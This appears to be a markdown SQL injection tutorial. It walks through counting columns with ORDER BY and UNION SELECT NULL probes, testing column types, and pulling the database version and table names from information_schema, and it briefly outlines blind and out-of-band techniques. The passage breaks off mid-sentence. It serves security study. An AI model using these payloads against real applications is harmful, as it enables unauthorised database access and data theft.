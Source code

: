 **Steps**

- Figure out the number of columns that the query is making using **ORDER BY**
```sql
select title, cost from product where id=1 order by 1
```
  - Incrementally inject a series of ORDER BY clauses until you get an error or observe a different behavior in the application
```sql
order by 1--
order by 2--
order by 3-- 
```
  - The ORDER BY position number 3 is out of range, this means the table has only two columns
  - Other method for determining the numbers of columns is using **NULL VALUES**:
```sql
select title, cost from product where id=1 UNION SELECT NULL--
``` 
  - If not error is returned qe have to increase the NULL VALUES
```sql
UNION SELECT NULL--
UNION SELECT NULL, NULL --
```
- Figure the data types of the columns (interested in string data)
  - Probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn
  
```sql
UNION SELECT 'a', NULL--
#Response:Conversion failed when converting the varchar value 'a' to data type int

UNION SELECT 'a', NULL--
UNION SELECT NULL,'a'--
```

- Use the UNION operator to output information from the database

### Exploiting Boolean-Based Blind SQLi
- Submit a Boolean condition that evaluate to True/False and note the response
- Write a program that uses conditional statements to ask the database a series of True/False questions and monitor response
### Exploiting Time-Based Blind SQLi
- Submit a payload that pauses the application for a specified period of time
- Write a program that uses conditional statements to ask the database a series of True/False questions and monitor response
### Exploiting Out-of-Band SQLi
- Submit OAST payloads designed to trigger an out-of-band network interaction when executed within an SQL query, and monitor for any resulting interactions
- Depending on SQL injection use different methods for exfill data
## Escalating the Attack
### Learn About the Database
First, we need information about the structure of the database, the payloads previously reviewed require some knowledge of the database, such as table names or field names, so we can attempt some trial-error SQL queries to determine the database version, it should look like this:
```sql
SELECT Title, Body FROM Emails WHERE Username='jesus' UNION SELECT 1,@@version;--
```
Once you know the version of database, you can extract the table names with specific commands for each database version, it should look like this:
```sql
SELECT Title, Body FROM Emails WHERE Username='jesus' UNION SELECT 1, table_name FROM information_schema.tables
```
And this one will show you the columns names of the specific table: